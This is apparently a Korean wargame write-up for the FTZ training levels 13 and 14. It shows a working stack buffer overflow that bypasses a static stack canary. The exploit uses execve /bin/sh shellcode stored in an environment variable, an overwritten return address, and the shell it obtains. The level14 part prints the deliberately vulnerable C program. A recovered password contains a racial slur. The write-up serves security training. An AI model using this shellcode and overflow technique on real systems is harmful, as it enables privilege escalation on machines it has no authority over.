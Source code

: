 ```sh
[level13@ftz level13]$ ./attackme `python -c 'print "A"*1024'`
[level13@ftz level13]$ ./attackme `python -c 'print "A"*1036'`
 Warnning: Buffer Overflow !!! 
Segmentation fault
```

위와 같이 버퍼를 덮어씌우려 하면 버퍼오버플로우라는 오류 메시지가 출력되며 종료되는 것을 확인할 수 있다. 이렇게 정적으로 스택가드가 존재하는 경우에는 다음과 같이 우회가 가능하다.

먼저 환경변수에 쉘코드를 저장한다.

```sh
[level13@ftz level13]$ export SHELLCODE=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

[level13@ftz level13]$ echo 'int main() {printf("addr->%p\n",getenv("SHELLCODE"));}' > env.c
[level13@ftz tmp]$ ./a.out 
addr->0xbffffc1d # 쉘코드의 주소
```

다음은 다음과 같은 코드를 이용해 실행하면 쉘을 획득할 수 있다.

```sh
[level13@ftz level13]$ ./attackme `python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"\x1d\xfc\xff\xbf"'`
sh-2.05b$ id
uid=3094(level14) gid=3093(level13) groups=3093(level13)
sh-2.05b$ my-pass
TERM environment variable not set.

Level14 Password is "what that nigga want?".
```

`A` 문자를 1036바이트만큼 채운 뒤, 스택가드 값인 `0x01234567`을 채워주고 다음 `RET` 전까지 `A`로 덮어씌우고 쉘 코드가 있는 환경변수의 주소 값 `0xbffffc1d`를 `RET` 에 덮어씌워준다.

그러면 위와 같이 다음 레벨의 쉘을 획득 가능한 것을 확인할 수 있다.

끝!

## [+] FTZ level14

### Analysis

먼저 더미코드의 크기를 찾는 방법에 대해 책에 나와있어서 써본다.

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	int crap;
	int check;
	char buf[20];
	fgets(buf,45,stdin);

	if(check==0xdeadbeef)
	{
		setreuid(3095,3095);
		system("/bin/sh");
	}
	printf("Input : %s\n &buf : %p\n &check : %p\n &crap : %p\n",buf,buf,&check,&crap);
}
```
